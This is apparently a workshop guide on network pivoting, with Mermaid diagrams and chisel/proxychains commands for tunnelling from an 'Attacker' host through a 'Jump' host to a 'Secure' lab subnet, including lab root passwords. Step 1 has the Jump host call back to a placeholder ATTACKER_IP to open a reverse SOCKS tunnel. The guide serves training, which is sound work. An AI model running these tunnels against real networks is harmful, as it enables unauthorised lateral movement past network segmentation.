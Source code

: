 # Network Tunneling & Pivoting – Workshop Diagrams

## Network Topology
```mermaid
flowchart LR
  subgraph "Internal (172.16.5.0/24)"
    A[Attacker
    ------------
    *172.16.5.2*
    **root:root**]
    J[Jump
    ------------
    *172.16.5.3
    192.168.80.10*
    **root:hackme123**
    ]
  end

  subgraph "Secure (192.168.80.0/24)"
    S[Secure
    ------------
    *192.168.80.30*
    **root:Aa123456**
    ]
  end

  A <--> J
  J <--> S
```

**Legend**
- Solid lines = native routing reachability between hosts.
- Tunnels / proxies will be overlaid in the flow diagrams below.


## Step‑by‑Step Communication Flows & Commands

### Step 1 – Create a reverse SOCKS proxy via **Jump** (preferred for pivoting)
Goal: Get a SOCKS5 proxy that lets the **attacker** drive traffic through **Jump** into 192.168.80.0/24.

**Commands**
```bash
# On ATTACKER (listen for reverse connections)
chisel server -p 8000 --reverse

# On JUMP (connect out to attacker; create SOCKS on the SERVER side = ATTACKER)
chisel client ATTACKER_IP:8000 R:50001:socks
```
This creates a SOCKS5 listener on the **attacker** at `127.0.0.1:50001`.

**ProxyChains on attacker**
```bash
printf "\nsocks5\t127.0.0.1\t50001\n" | sudo tee -a /etc/proxychains4.conf
```

**Flow Diagram**
```mermaid
sequenceDiagram
  autonumber
  participant A as Attacker
  participant J as Jump

  A->>A: Open chisel server on port 8000
  J->>A: Connect to chisel server and request the server to open port 50001 as socks
  Note over A: SOCKS5 now at 127.0.0.1:50001
  Note over A,J: 5001 -> chisel tunnel ->
  A->>J: proxychains src - attacker:5001 - chisel server:8000 - chisel client - dest
```

### Step 2 – Use ProxyChains through **Jump** to reach **Secure**
With SOCKS on the **attacker**, you can already drive traffic to `192.168.80.30` via Jump.

**Examples**
```bash
# Enumerate Secure’s web app via the Jump SOCKS (remember: ICMP/ping won’t work over SOCKS)
proxychains nmap -sT -Pn 192.168.80.30
```

**Flow Diagram**
```mermaid
sequenceDiagram
  autonumber
  participant A as Attacker
  participant J as Jump
  participant S as Secure

  Note over A,J: 5001 -> chisel tunnel ->
  A->>J: Chisel encapsulated nmap scan
  J->>S: nmap TCP connect scan
  S-->>J: TCP connect response
  J-->>A: TCP connect response encapsulated in Chisel
```

### Step 3 – Add a second tunnel **from Secure back to Attacker** using the Jump path
Goal: Expose Secure’s port 80 on the attacker as a local port. This is handy for tools that don’t like SOCKS.

**Commands**
```bash
# Keep the Step 1 chisel server running on attacker (port 8000).
# On SECURE, route the client through the Jump path by using the SOCKS on the attacker (already exists at 127.0.0.1:50001)
# We’ll daisy-chain with proxy support so Secure can reach the attacker through Jump.

# On SECURE (first, SSH in from attacker via proxychains):
proxychains ssh root@192.168.80.30
# Password: Aa123456

# On SECURE (once logged in):
chisel server --socks5 -p 8001

# On ATTACKER
chisel client --proxy socks://127.0.0.1:50001 192.168.80.30:8001 50002:socks
```

**Result:** Attackers port 50002 tunnels traffic to Secure through Jump.

**Flow Diagram**
```mermaid
sequenceDiagram
  autonumber
  participant A as Attacker
  participant J as Jump
  participant S as Secure

  Note over A,J: 5001 -> chisel tunnel 1 ->
  A->>J: chisel (ssh root@192.168.80.30)
  J->>S: ssh root@192.168.80.30
  S-->>A: ssh connection
  S->>S: chisel server on port 8001
  J->>S: chisel 192.168.80.30:8001
  A->>J: chisel (chisel 192.168.80.30:8001)
  A->>A: Open port 50002 for socks
  Note over A,S: 5002 -> chisel tunnel 2 ->
```

**Update ProxyChains**
```bash
sed -i 's/50001/50002/' /etc/proxychains4.conf
```

---

### Step 4 – Exploit the web app
Use proxychains to route traffic through the SOCKS:50002 proxy to access Secure:80.

**Examples**
```bash
proxychains bash

# Access Secure:80
curl -i http://127.0.0.1:80/
```

### Finally
```mermaid
flowchart LR
  A[Attacker
  *chisel:8000*
  *socks:50001*
  *socks:50002*]
  J[Jump
  *ssh:22*]
  S[Secure
  *ssh:22*
  *chisel:8001*]

  subgraph Internal
    J ==>|chisel:8000| A
    A ====|SOCKS:5001| J
  end
  A ===|"SOCKS:50001(chisel:8001)"| J
  subgraph Secure
    J ==>|chisel:8001| S
    A ===|SOCKS:50002| S
  end

  linkStyle 0 stroke:red;
  linkStyle 1 stroke:yellow;
  linkStyle 2 stroke:green;
  linkStyle 3 stroke:green;
  linkStyle 4 stroke:orange;
```
## Notes & Gotchas
- **DNS over SOCKS**: enable `proxy_dns` in `/etc/proxychains4.conf` if you need name resolution through the proxy.
- **ICMP isn’t proxied** via SOCKS (expect `ping` to fail). Use TCP scans (`-sT`) with `-Pn`.
- **Stability**: prefer `dynamic_chain` in ProxyChains; avoid `strict_chain` while testing.

